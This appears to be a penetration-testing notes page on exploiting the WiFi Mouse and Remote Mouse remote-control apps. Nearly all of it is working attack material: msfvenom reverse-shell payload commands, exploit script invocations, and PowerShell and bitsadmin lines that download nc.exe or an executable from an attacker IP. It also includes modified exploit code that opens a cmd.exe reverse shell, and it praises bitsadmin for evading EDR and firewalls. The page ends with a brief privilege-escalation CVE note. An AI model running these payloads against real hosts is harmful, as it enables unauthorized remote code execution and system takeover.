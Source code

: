 # 1978 - WiFi Mouse

## WiFi Mouse

[WiFi Mouse](https://wifimouse.necta.us/) is a cross-platform application that allows a mobile device to function as a wireless mouse, keyboard, and touchpad for a host computer. It communicates over a local network using TCP/IP and typically listens on specific ports (such as `1978`) to receive input events. The software enables control of the host system without physical interaction, supporting gestures, media controls, and basic keyboard input. From a security perspective, if the control port is exposed to untrusted networks or lacks authentication, an attacker could remotely send input events, execute commands, or manipulate the host system.

### Unauthenticated RCE

WiFi Mouse version `1.7.8.5` is vulnerable to unauthenticated RCE due to insecure command parsing. A working Python-based [PoC](https://www.exploit-db.com/exploits/50972) is available.

{% code overflow="wrap" %}
```bash
# Search for PoC
$ searchsploit WiFi Mouse

WiFi Mouse 1.7.8.5 - Remote Code Execution(v2) | windows/remote/50972.py

# Generate the payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=4444 -f exe -o 1978.exe

# Use the exploit
$ python3 50972.py hermes 192.168.45.154:8888 1978.exe
```
{% endcode %}

## Remote Mouse

[Remote Mouse](https://www.remotemouse.net/) is a similar to WiFi Mouse application that transforms mobile devices into remote input controllers for desktop or laptop computers providing a similar functionality.&#x20;

### Unauthenticated RCE

Various Python-based PoCs are available for this vulnerability.&#x20;

The [RemoteMouse-3.008-Exploit](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit) can be used as follows:

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f exe -o 1978.exe

# Upload it on the target
$ ./RemoteMouse-3.008-Exploit.py --target-ip mice --cmd "powershell -c \"wget 192.168.45.241:443/1978.exe -O c:\windows\temp\1978.exe\""                                       

# Execute the payload
$ ./RemoteMouse-3.008-Exploit.py --target-ip mice --cmd "c:\windows\temp\1978.exe"
```
{% endcode %}

The  [46697](https://www.exploit-db.com/exploits/46697) can be used with slight modifications:

{% code overflow="wrap" %}
```bash
$ searchsploit Remote Mouse 3.008

Remote Mouse GUI 3.008 - Local Privilege Escalation | windows/local/50047.txt
RemoteMouse 3.008 - Arbitrary Remote Command Execution | windows/remote/46697.py
```
{% endcode %}

{% code title="46697.py" overflow="wrap" %}
```python
<SNIP>

cmd1='powershell -c "iwr http://192.168.45.241/nc.exe -OutFile C:\\Windows\\Temp\\nc.exe"'
cmd2='C:\\Windows\\Temp\\nc.exe -e cmd.exe 192.168.45.241 443'
​
def PopCalc(ip):
    MoveMouse(-5000,3000,ip)
    MousePress(mouse.leftClick,ip)
    sleep(1)
    SendString("cmd.exe",ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd1,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(25) # Delay to allow the completion of the download process
    SendString(cmd2,ip)
    sleep(1)
    SendString("\n",ip)
    print("SUCCESS!",ip)
    
<SNIP>
```
{% endcode %}

A safer approach can be also used:

{% hint style="warning" %}
`bitsadmin` is a legacy Windows utility that leverages the **Background Intelligent Transfer Service (BITS)** to download files while blending with normal network activity, often bypassing firewall rules. Unlike PowerShell, it is **not constrained by execution policies or common EDR monitoring**, allowing file transfers in restricted environments, sometimes without administrative privileges. Its asynchronous operation enables downloads without holding a command shell open, supporting parallel actions. While slower than PowerShell methods, its reliability and ability to evade defenses make it valuable in offensive operations, though it is deprecated in modern Windows versions in favor of BITS PowerShell cmdlets.
{% endhint %}

{% code title="46697.py" overflow="wrap" %}
```python
<SNIP>

cmd1='mkdir c:\\pwn'
cmd2='bitsadmin /transfer job /download /priority high http://192.168.45.241/nc.exe c:\\pwn\\nc.exe'
cmd3='c:\\pwn\\nc.exe -e cmd.exe 192.168.45.241 443'
​
def PopCalc(ip):
    MoveMouse(-5000,3000,ip)
    MousePress(mouse.leftClick,ip)
    sleep(1)
    SendString("cmd.exe",ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd1,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd2,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(25)
    SendString(cmd3,ip)
    sleep(1)
    SendString("\n",ip)
    print("SUCCESS!",ip)
    
<SNIP>
```
{% endcode %}

### Privilege Escalation (GUI)

Emote Interactive Remote Mouse version `3.008` on Windows is affected by a privilege escalation vulnerability that allows attackers to execute arbitrary programs with administrative privileges ([CVE-2021-35448](https://nvd.nist.gov/vuln/detail/CVE-2021-35448)). The flaw resides in the Image Transfer Folder feature, which can be manipulated to navigate to `cmd.exe` and launch it as `Administrator`. The application binds to local TCP ports to accept incoming connections, creating an attack surface that can be abused if exposed or accessible by untrusted users. Steps for exploiting this vulnerability can be found [here](https://www.exploit-db.com/exploits/50047).

<figure><img src="../../.gitbook/assets/rm_pe.png" alt=""><figcaption></figcaption></figure>
